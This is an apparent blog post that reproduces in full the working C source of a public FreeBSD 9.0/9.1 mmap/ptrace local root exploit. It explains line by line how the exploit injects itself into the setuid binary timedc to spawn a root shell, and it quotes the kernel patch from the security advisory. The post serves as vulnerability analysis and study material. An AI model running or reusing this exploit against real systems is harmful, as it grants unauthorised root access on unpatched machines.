

The Exploit
Happy Birthday FreeBSD! Now you are 20 years old and your security is the same as 20 years ago... :) -- Hunger <hunger@hunger.hu>
Saw this little birthday gift this morning from Full Disclosure. Works on my FreeBSD VM. Here's a screenshot.
And here's the exploit code
/*
* FreeBSD 9.{0,1} mmap/ptrace exploit
* by Hunger <fbsd9lul@hunger.hu>
*
* Happy Birthday FreeBSD!
* Now you are 20 years old and your security is the same as 20 years ago...
*
* Greetings to #nohup, _2501, boldi, eax, johnny_b, kocka, op, pipacs, prof,
* sd, sghctoma, snq, spender, s2crew and others at #hekkcamp:
* I hope we'll meet again at 8@1470n
*
* Special thanks to proactivesec.com
*
*/
#include <err.h>
#include <errno.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/ptrace.h>
#include <sys/wait.h>
#define SH "/bin/sh"
#define TG "/usr/sbin/timedc"
int
main(int ac, char **av) {
int from_fd, to_fd, status;
struct stat st;
struct ptrace_io_desc piod;
char *s, *d;
pid_t pid;
if (geteuid() == 0) {
setuid(0);
execl(SH, SH, NULL);
return 0;
}
printf("FreeBSD 9.{0,1} mmap/ptrace exploit\n");
printf("by Hunger <fbsd9lul@hunger.hu>\n");
if ((from_fd = open(av[0], O_RDONLY)) == -1 ||
(to_fd = open(TG, O_RDONLY)) == -1)
err(1, "open");
if (stat(av[0], &st) == -1)
err(2, "stat");
if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
(d = mmap(NULL, (size_t)st.st_size, PROT_READ,
MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
err(3, "mmap");
if ((pid = fork()) == -1)
err(4, "fork");
if (!pid) {
if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
err(5, "ptraceme");
return 0;
}
if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
err(6, "ptattach");
if (wait(&status) == -1)
err(7, "wait");
piod.piod_op = PIOD_WRITE_D;
piod.piod_offs = d;
piod.piod_addr = s;
piod.piod_len = st.st_size;
if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
err(8, "ptio");
execl(TG, TG, NULL);
return 0;
}
Seems this vulnerability is already announced on 18-June-2013 and a patch was released with the Security Advisory
As stated in the Security Advisory, mmap is a POSIX-compliant system call that allows users to map files into memory by a process, and then can be access using memory operations.
And the ptrace is a handy tracing and debugging facility that allows users to attach to and control the traced process.
A security vulnerability exists in the virtual memory system that the permission checks are insufficient which allows the tracing process to modify adresses to which the traced process itself does not have write access.
The Analysis
The exploit code is quite simple, but it took me sometime to understand how mmap(2) and ptrace(2) works under FreeBSD.
See the code below
if (geteuid() == 0) {
setuid(0);
execl(SH, SH, NULL);
return 0;
}
At the begining of the exploit, it checks if the effective user id is 0. This will only be true when the suid bit is set for the executable. Of course it's not true at this point, because the exploit binary doesn't have suid set.
However, this code will eventually get injected into another executable program, which obviously should have the suid bit, so that we can then setuid to 0, and get our lovely shell with root privilege.
#define TG "/usr/sbin/timedc"
$ ls -l /usr/sbin/timedc
-r-sr-xr-x 1 root wheel 20688 Dec 4 2012 /usr/sbin/timedc
As you can see here, timedc is chosen for us to inject to. Note that it has suid bit.
So now what's left is to just inject this code into timedc, and when it gets called, we get a shell.
if ((from_fd = open(av[0], O_RDONLY)) == -1 ||
(to_fd = open(TG, O_RDONLY)) == -1)
err(1, "open");
if (stat(av[0], &st) == -1)
err(2, "stat");
Now it tries to open the compiled binary of itself (av[0]) as from_fd, and /usr/sbin/timedc as to_fd. And then the stat of the exploit binary is saved in a stat struct called st. It'll later be used to get the size of the exploit binary.
if (((s = mmap(NULL, (size_t)st.st_size, PROT_READ,
MAP_SHARED, from_fd, (off_t)0)) == MAP_FAILED) ||
(d = mmap(NULL, (size_t)st.st_size, PROT_READ,
MAP_SHARED|MAP_NOSYNC, to_fd, (off_t)0)) == MAP_FAILED)
err(3, "mmap");
mmap is used then to map the exploit binary into memory as s and timedc as d.
Refer to mmap man pages for details.
if ((pid = fork()) == -1)
err(4, "fork");
if (!pid) {
if (ptrace(PT_TRACE_ME, pid, NULL, 0) == -1)
err(5, "ptraceme");
return 0;
}
if (ptrace(PT_ATTACH, pid, NULL, 0) == -1)
err(6, "ptattach");
if (wait(&status) == -1)
err(7, "wait");
Next it forks a child process. fork returns 0 to the child process, and the child process id to the parent process.
Since !pid is true only for the child process, PT_TRACE_ME marks the child as the traced process, This is for the kernel to know that some other process is tracing this child.
PT_ATTACH is executed by the parent process, it attaches to the child to start controlling it. Now we have two processes of the exploit, one tracing process, and one traced process.
Finally with wait, it suspends the calling process until status is available for terminated child process, or a signal is received from kernel. Since PT_TRACE_ME is set for the child process, a signal from kernel is expected. That'll explicitly tell us that we are now okay to start tracing.
piod.piod_op = PIOD_WRITE_D;
piod.piod_offs = d;
piod.piod_addr = s;
piod.piod_len = st.st_size;
if (ptrace(PT_IO, pid, (caddr_t)&piod, 0) == -1)
err(8, "ptio");
piod is a ptrace_io_desc struct, it'll be used by PT_IO
The PT_IO request allows reading and writing arbitrary amounts of data in the traced process's address space. In this case the addr argument should be a pointer to a ptrace_io_desc which is defined as
struct ptrace_io_desc {
int piod_op; /* I/O operation */
void *piod_offs; /* child offset */
void *piod_addr; /* parent offset */
size_t piod_len; /* request length */
};
This is designed for us to write data to the child process, but instead this piece of code writes the exploit binary to timedc.
This is the exact point of the vulnerability, the parent tracing process controls the child traced process to write data to timedc, which it originally has no privilege to do so. The virtual memory system does not check if such write/read operation is allowed. The injection of the exploit code into timedc is finished.
execl(TG, TG, NULL);
Now it runs timedc. Since it has the exploit code injected, and it has suid set, we can now get a shell with root privilege.
The Solution
A patch is provided by the Security Advisory. You can follow the instruction there to patch your system.
--- sys/vm/vm_map.c (revision 251636)
+++ sys/vm/vm_map.c (working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
vm_map_unlock_read(map);
return (KERN_PROTECTION_FAILURE);
}
+ if ((fault_typea & VM_PROT_COPY) != 0 &&
+ (entry->max_protection & VM_PROT_WRITE) == 0 &&
+ (entry->eflags & MAP_ENTRY_COW) == 0) {
+ vm_map_unlock_read(map);
+ return (KERN_PROTECTION_FAILURE);
+ }
The patch adds security checking upon virtual memory copying.
Nice birthday gift Hunger, had some very fun reading and debugging.
<< EOF
Comments